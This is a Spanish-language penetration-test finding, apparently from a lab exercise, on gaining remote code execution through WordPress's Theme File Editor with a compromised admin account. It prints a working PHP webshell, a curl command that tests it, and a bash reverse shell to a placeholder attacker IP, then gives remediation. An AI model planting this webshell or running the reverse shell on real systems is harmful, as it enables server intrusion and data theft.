



# 💻 F-022 — RCE vía Theme File Editor (reverse shell)

    🏆

> [!IMPORTANT]
> Con la cuenta admin comprometida ([F-021](F-021-fuerza-bruta-admin-qwerty.md)), el editor de archivos integrado de WordPress (**Appearance → Theme File Editor**) da ejecución remota de comandos directa, sin exploits ni CVEs — es una función legítima del panel.

## 📖 Contexto

WordPress ofrece de serie un editor de código para modificar los ficheros PHP del tema/plugin activo, sin ninguna capa adicional de autorización ni verificación de integridad de archivos. Con sesión de `admin`, es la vía más directa a ejecución de código en el servidor — la misma técnica cubierta en los apuntes de clase sobre post-explotación de WordPress.

## 🔬 Explotación paso a paso

**1. Inyección del webshell** en `wp-content/themes/twentytwentyone/404.php` (tema activo), al inicio del archivo:

```php
<?php if(isset($_GET['cmd'])){ echo "<pre>"; system($_GET['cmd']); echo "</pre>"; } ?>
```



**2. Confirmación de RCE:**

```bash
curl "http://bigshop.local/wp-content/themes/twentytwentyone/404.php?cmd=id"
# uid=997(bigshop) gid=997(bigshop) groups=997(bigshop)
```



**3. Reverse shell completa** (listener primero):

```bash
nc -lvnp 4444
```

```bash
curl "http://bigshop.local/wp-content/themes/twentytwentyone/404.php" -G \
  --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/<IP_ATACANTE>/4444 0>&1'"
```



Shell interactiva obtenida como **`bigshop`** (uid 997) — a diferencia de PenguinWave/PixelForge (ambas `www-data`), este contenedor ejecuta WordPress bajo un usuario de sistema dedicado, indicio de mejor segregación de procesos entre apps a nivel de SO (aunque no evita el compromiso).

## 💥 Impacto

> [!CAUTION]
> Ejecución remota de comandos arbitrarios en el servidor con los privilegios del proceso web. Punto de apoyo para post-explotación completa: lectura de configuración ([F-023](F-023-secretos-wp-config.md)) e intento de escalada de privilegios ([F-024](F-024-grupo-workers-etc-no-explotado.md)).

## 🛡️ Remediación

- Deshabilitar el editor de archivos en producción: `define('DISALLOW_FILE_EDIT', true);` en `wp-config.php`.
- Añadir también `define('DISALLOW_FILE_MODS', true);` para bloquear instalación/actualización de plugins desde el panel.
- Esto no sustituye remediar el origen real (la cuenta admin comprometida en [F-021](F-021-fuerza-bruta-admin-qwerty.md)), pero reduce drásticamente el impacto de una toma de cuenta admin, eliminando esta vía trivial a RCE.

## Hallazgos relacionados

- [F-021](F-021-fuerza-bruta-admin-qwerty.md) — el acceso admin que hizo posible llegar al editor.
- [F-023](F-023-secretos-wp-config.md) — lo que se encontró con el acceso de shell obtenido aquí.
- [F-024](F-024-grupo-workers-etc-no-explotado.md) — intento de escalada desde esta misma shell.
- [F-025](F-025-cadena-completa-wordpress.md) — la cadena completa, de la que este es el eslabón central.

---

⬅ [Volver al índice de writeups](README.md) · [README principal](../README.md) · [Informe técnico (PDF)](../docs/informe-BigShop.pdf)
